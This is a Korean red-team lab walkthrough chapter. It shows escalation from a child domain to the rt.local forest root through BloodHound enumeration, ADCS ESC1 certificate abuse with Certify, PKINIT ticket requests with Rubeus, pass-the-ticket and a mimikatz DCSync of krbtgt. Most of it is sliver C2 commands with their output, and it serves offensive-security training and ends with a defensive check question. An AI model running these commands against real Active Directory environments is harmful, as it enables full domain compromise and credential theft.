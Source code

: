 # 8. US -> RT 장악

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* Cross-Domain BloodHound
* ADCS ESC1 권한 상승
* PKINIT 인증

<figure><img src="../.gitbook/assets/AttackPath8-Compromising-RT.drawio.png" alt=""><figcaption></figcaption></figure>

US 도메인을 장악했으니 이제 us.rt.local의 부모 도메인이자 Forest Root Domain인 rt.local을 장악할 차례다. 블러드하운드를 RT에 날려야하는데, US의 SQL01 서버에서 RT로 LDAP 트래픽을 많이 보내는 것은 수상하다. LDAP과 도메인 Replication 자체가 도메인 컨트롤러들끼리 정보를 주고 받기 위해 만들어진 것이니, US의 도메인 컨트롤러인 UDC01 까지 횡적 이동을 한 뒤 RT를 향해 블러드하운드를 실행한다.

```
sliver (TOUGH_BREADCRUMB) > inline-execute-assembly /root/funtimes.exe "-c All,Session -d rt.local --forcesecureldap --
zipfilename crashdump --zippassword test --distinguishedname DC=rt,DC=local"
```

UDC01 횡적 이동 후 SharpHound를 실행하고, 이를 블러드하운드에 집어넣으면 다음과 같은 공격 경로가 나온다.

<figure><img src="../.gitbook/assets/6-bh-adcs.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/6-bh-adcs2.png" alt=""><figcaption></figcaption></figure>

블러드하운드 결과 US 도메인의 도메인 관리자들은 RT 도메인에 ESC1 공격을 진행할 수 있다. Forest Code Signing 인증서 양식이 ESC1에 취약한 상태다. 현재 장악한 US의 도메인 관리자들이 해당 인증서 양식에 Enroll 할 수 있기 때문에, 공격 가능한 상태다.

확실하게 알아보기 위해 UDC01에서 실행중인 세션에서 BOF를 통해 다시 한 번 확인한다.

```
sliver (FULL_SCHNITZEL) > sa-adcs-enum

  Enterprise CA Name        : rt-CA
  DNS Hostname              : ca01.rt.local
  
  [*] Found 19 templates on the ca                                                                                          
    Template Name           : ForestCodeSigning                                                                        
    Friendly Name           : Forest Code Signing
    Name Flags              : ENROLLEE_SUPPLIES_SUBJECT                        
    Extended Key Usage      : Code Signing, Client Authentication                                                      
    Permissions             :                                                                                          
      Owner                 : rt\Administrator                                                                         
                              S-1-5-21-1952929721-2588395256-1898831064-500
                              
        Principal           : US\Domain Admins                                                                         
          Access mask       : 00000100                                                                                 
          Flags             : 00000001                                                                                 
                              Enrollment Rights

```

ADCS 정보 수집 결과 Forest Code Signing이라는 템플릿에는 US\Domain Admins 그룹이 Enroll 할 수 있다. 해당 양식은 Client Authentication에 사용되기 때문에 도메인 컨트롤러가 허용 한다면 PKINIT에 사용될 수 있고, ENROLLEE\_SUPPLIES\_SUBJECT 설정이 되어 있기 때문에 ESC1 공격에 취약한 상태다.

Impersonate를 이용해 UDC01에 로그인 해 있던 도메인 관리자의 액세스 토큰을 훔쳐온 뒤, Certify를 이용해 ESC1 공격을 실행한다. 인증서 양식에 Enroll은 US\Administrator로 하되, SAN에다가는 부모 도메인의 RT\Administrator 도메인 관리자를 집어넣은 인증서를 발급받는다.

```
// impersonate 이용해 도메인 관리자 맥락 획득 
sliver (FULL_SCHNITZEL) > impersonate US\\Administrator         

[*] Successfully impersonated US\Administrator 

// Certify를 이용해 ESC1 공격 
sliver (FULL_SCHNITZEL) > certify -- "request /ca:ca01.rt.local\rt-CA /template:ForestCodeSigning /altname:rt.local\Administrator"

[*] Current user context    : US\Administrator
[*] No subject name specified, using current context as subject.

[*] Template                : ForestCodeSigning
[*] Subject                 : CN=Administrator, CN=Users, DC=us, DC=rt, DC=local
[*] AltName                 : rt.local\Administrator

[*] Certificate Authority   : ca01.rt.local\rt-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 26 

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAweYqUB+eitjRom23PKj < . . . 생략 . . . > 
-----BEGIN CERTIFICATE-----
MIIFtTCCBJ2gAwIBAgITWwAAABoz < . . . 생략 . . . > 

// ESC1 인증서 획득 
root@sliver-teamserver:~# openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
root@ip-10-1-14-169:~# ls -alh cert.pfx 
-rw------- 1 root root 3.3K Jan 20 13:07 cert.pfx

// base64 변환 
root@ip-10-1-14-169:~# cat cert.pfx | base64 -w 0
MIINDQIBAzC < . . . 생략 . . . > 
```

ESC1을 통해 SubjectAltName이 RT\Administrator인 인증서 양식을 받아왔다면, openssl 과 base64를 이용해 Rubeus로 사용할 수 있는 base64 인코딩된 형태로 바꿔준 뒤, PKINIT을 통해 RT\Administrator의 TGT를 받아온다.

```
// PKINIT을 통해 RT\Administrator의 TGT 받아오기 
sliver (FULL_SCHNITZEL) > inline-execute-assembly /root/Rubeus.exe "asktgt /user:rt.local\Administrator /nowrap /certificate:MIINDQIBAzC < . . . 생략 . . . > 

[*] Using PKINIT with etype rc4_hmac and subject: CN=Administrator, CN=Users, DC=us, DC=rt, DC=local 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'rt.local\Administrator'
[*] Using domain controller: 10.2.10.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGNDCCBjCgAwIBB < . . . 생략 . . . > 
```



<figure><img src="../.gitbook/assets/AttackPath9-RT-PKINIT.drawio.png" alt=""><figcaption></figcaption></figure>

이후 받아온 RT\Administrator의 TGT를 사용해 RT 도메인(이자 포레스트) 전체를 장악한다.

```
// PTT을 통해 RT\Administrator 장악 
sliver (FULL_SCHNITZEL) > inline-execute-assembly /root/Rubeus.exe "ptt /ticket:doIGNDCCBjCgAwIBB < . . . 생략 . . . > "

[*] Action: Import Ticket
[+] Ticket successfully imported!

// RT 포레스트 루트 도메인 장악 확인 
sliver (FULL_SCHNITZEL) > ls \\\\pdc01.rt.local\\c$

\\pdc01.rt.local\c$\ (18 items, 1.4 GiB)
========================================
drwxrwxrwx  $Recycle.Bin                        <dir>      Fri Dec 27 20:25:16 +0900 2024
drwxrwxrwx  Boot                                <dir>      Fri Dec 27 19:00:00 +0900 2024
-r--r--r--  bootmgr                             403.0 KiB  Fri Dec 27 18:57:35 +0900 2024

// DCSync 
sliver (FULL_SCHNITZEL) > mimikatz " \"lsadump::dcsync /domain:rt.local /user:RT\\krbtgt\" "

mimikatz(commandline) # lsadump::dcsync /domain:rt.local /user:RT\krbtgt
[DC] 'rt.local' will be the domain
[DC] 'pdc01.rt.local' will be the DC server
[DC] 'RT\krbtgt' will be the user account

SAM Username         : krbtgt
Credentials:
  Hash NTLM: 7757b0a70daf0123c8a8a86e910da0cf

* Primary:Kerberos-Newer-Keys *
    Default Salt : RT.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : c7c91463f1709779054eeb7c09c62b138f9d34644fd8d3d689caff437d63cfda
      aes128_hmac       (4096) : 4e94b7731ff83a21c3624616f90df481
```



## 마치며

ADCS ESC1과 PKINIT 등을 이용해 부모 도메인이였던 RT까지 장악했다. 이제 RT를 장악했으니, 원래 레드팀 목적이였던 라쿤 테크의 소스 코드 개발을 도맡아 하고 있는 DEV 및 IN 도메인으로 횡적 이동을 해 목표를 달성한다.

## 우리 회사는

* ADCS ESC1 \~ 13까지, ADCS와 관련된 취약점은 없는가?


